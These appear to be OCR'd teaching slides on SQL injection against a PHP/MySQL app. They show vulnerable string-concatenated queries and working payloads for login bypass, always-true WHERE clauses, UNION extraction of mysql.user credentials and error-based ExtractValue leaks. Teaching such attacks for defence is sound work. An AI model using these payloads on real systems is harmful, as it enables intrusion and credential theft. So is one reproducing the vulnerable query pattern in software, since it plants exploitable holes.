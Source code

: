 Login Form - EXPLOIT 
What if you don’t know any username AND the page checks for one result?
Query:	SELECT * FROM users WHERE username=’$user’ AND password=’$pass’
Payload:
username: 		any
password: 		a’ OR True LIMIT 3,1 -- -
Why does this work?
SELECT * FROM users WHERE username=’any’ AND password=’a’ OR True LIMIT 3,1 -- -’
SELECT * FROM users WHERE username=’any’ AND password=’a’ OR True LIMIT 3,1 -- -’
SELECT * FROM users WHERE (( username=’any’ AND password=’a’ ) OR True) LIMIT 3,1 -- -’

Get Data from MySQL DB
Query String 
$payload = $_GET[‘payload’]; // or you could use $_POST[‘payload’] if you wish
“SELECT * FROM users WHERE username=’$payload’”
Submit string to DB
Call ->query method on open connection
Iterate over results cursor
Use ->fetch_assoc(), it will return a row as an associative array
Display all results
echo $row[‘user’] . $row[‘pass’] . $row[‘signature’];  // Formatting is for tryhards
Display SQL errors on the Result page
$con->error

Get Data from MySQL DB - EXPLOIT
Always True WHERE clause
Query:		SELECT * FROM users WHERE username=’$payload’
Payload: 		Arthur’ OR ‘a’=’a
SELECT * FROM users WHERE username=’Arthur’ OR ‘a’=’a’
SELECT * FROM users WHERE username=’Arthur’ OR ‘a’=’a’

“But what if I wanted to get data from another table?”

Get Data from MySQL DB - EXPLOIT
UNION Based SQL Injection
Query:		SELECT * FROM users WHERE username=’$payload’
Payload: 		Arthur’ UNION ALL SELECT user AS username, null AS id,password AS			password,NULL FROM mysql.user -- -
SELECT * FROM users WHERE username=’Arthur’ UNION ALL SELECT user AS username, null AS id,password AS password,NULL FROM mysql.user -- -’
SELECT * FROM users WHERE username=’Arthur’UNION ALLSELECT user AS username, 0 AS id, password AS password, NULL FROM mysql.user -- -’
NOTE: column number must be the same in both queries (hence the NULL value)

Get Data from MySQL DB - EXPLOIT
Error Based SQL Injection
Query:		SELECT * FROM users WHERE username=’$payload’
Payload: 		Arthur’ AND ExtractValue(0, CONCAT( 0x5c, User() ) ) -- -
SELECT * FROM users WHERE username=’Arthur’ 		AND ExtractValue(0, CONCAT( 0x5c, User() ) ) -- -’
0x5c is the \ character in ASCII
SELECT * FROM users WHERE username=’Arthur’ AND ExtractValue(0, \user@host ) ) -- -’
SQL is ‘eager’, User() is substituted by its result (user@host) when evaluated 
ExtractValue takes two parameters:
An XML document (as a String)
An XPath (no XPath starts with ‘\’    =>   syntax error ensured, but that’s what we want)
